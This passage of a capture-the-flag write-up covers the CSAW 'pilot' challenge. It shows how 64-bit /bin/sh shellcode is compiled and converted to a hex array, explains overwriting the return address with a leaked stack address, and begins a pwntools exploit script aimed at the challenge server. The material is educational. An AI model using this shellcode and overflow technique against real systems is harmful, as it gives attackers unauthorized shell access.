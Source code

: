 1. Run 'make' to compile the shellcode
2. Leverage the 'shellcodeAsArray' Python script to convert the shellcode to a hex array for use within a Python script
3. Place the hex array at the beginning of our payload
4. Pad the unused bytes with whatever we'd like (confirm the total bytes before the return address is 40)
5. Replace the 8 "B"s with the value of the "Location" address

```bash
git clone https://github.com/isislab/Shellcode.git
Cloning into 'Shellcode'...
remote: Counting objects: 925, done.
remote: Total 925 (delta 0), reused 0 (delta 0), pack-reused 925
Receiving objects: 100% (925/925), 9.22 MiB | 12.31 MiB/s, done.
Resolving deltas: 100% (406/406), done.

cd Shellcode/64BitLocalBinSh/

make

nasm -f elf64 shell64.s -I ../include/ -I ../include/runtime/ -o linkme.o

nasm shell64.s -I ../include/ -I ../include/runtime/ -o shellcode

gcc linkme.o -o testShellcode 

python ../shellcodeAsArray/sa.py shellcode 
shellcode = ( "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0"
"\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"
)
```

By design, our exploit will overwrite the return address with the value of "Location", which is the memory address pointing to the beginning of our user input. Once the function returns, the program execution will be diverted to the beginning of our user input and execute the code therein. This will be our shellcode that executes /bin/sh to drop us into a shell on the target system. For programmatic interaction with the target binary, as well as construction and delivery of our payload, we'll lean on the power of the [pwntools Python library](https://github.com/Gallopsled/pwntools){:target="_blank"}.

```python
#!/usr/bin/python
from pwn import *
import argparse

parser = argparse.ArgumentParser(description='pwntools skeleton')
parser.add_argument('-l', action="store_true", default=False)
args = parser.parse_args()

# check if target is local binary or remote
if args.l:
    print '[+] Going local...'
    r = process('./pilot')
else:
    print '[+] Going remote...'
    r = remote('pwn.chal.csaw.io', 8464)

# read response until "Location:" string is found
r.recvuntil('Location:')
# store "Location" address in variable
address = r.recvuntil('\n')[:-1]
print '[+] Target Address: {}'.format(address)
# 64-bit Linux '/bin/sh' shellcode
shell_please = "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"
```